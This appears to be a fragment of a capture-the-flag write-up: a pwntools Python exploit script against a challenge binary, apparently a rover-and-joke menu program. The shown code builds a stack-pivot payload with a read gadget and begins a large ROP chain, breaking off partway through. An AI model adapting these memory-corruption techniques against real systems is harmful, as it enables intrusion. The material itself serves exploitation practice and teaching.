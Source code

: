 ## Exploit

```python
#!/usr/bin/env python3

import os
os.environ['PWNLIB_NOTERM'] = '1'
from pwn import *

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
context.endianness = 'little'
context.bits = 64

if args.NOLOG:
    logging.disable()

exe = ELF('./main')

gdbscript = '''
'''
gdbscript = "\t-ex\t".join(gdbscript.splitlines()).split("\t")[1:]

def start():
    HOST = os.environ.get('HOST', 'localhost')
    PORT = os.environ.get('PORT', 5555)
    p = remote(HOST, PORT)
    if args.ATTACH:
        run_in_new_terminal(["gdb-multiarch", "main", "-ex", f"target remote {HOST}:1234"] + gdbscript)
    return p

io = start()

# ======================================================= stack pivot 1 =======================================================
# this is placed in main's stack frame. the function pointer corruption
# will pivot the stack to this frame here.
# this frame calls the read gadget, so that we can read a big rop chain into g_rovers

READ_GADGET = exe.symbols.cmd_set_name + 168
G_ROVERS = exe.symbols.g_rovers
payload = p64(G_ROVERS)             # r31
payload += b"B" * 0x8               # nowhere
payload += b"C" * 0x8               # nowhere
payload += p64(READ_GADGET)         # lr        (where i will jump to)

io.sendlineafter(b"Joke size: ", str(len(payload)).encode())
io.sendlineafter(b"Joke: ", payload)

io.sendlineafter(b"Option:", str(2).encode())                       # Set command
io.sendlineafter(b"Choose the action:", str(1).encode())            # action -> set planet
io.sendlineafter(b"Option:", str(3).encode())                       # Execute command
io.sendlineafter(b"Send new planet size: ", str(0x100).encode())

# ======================================================= BIG ROP CHAIN =======================================================     # we need to know the length of this ropchain to call read_exactly

PARAMS_SHIFT = 0x200
STACK_PADDING = 0x30
STACK_SHIFT = (-0xac0 + STACK_PADDING + PARAMS_SHIFT) % 2**64 

# ===================== 1 ===================== - read -> coolg
LR_OFFSET = 0x90
```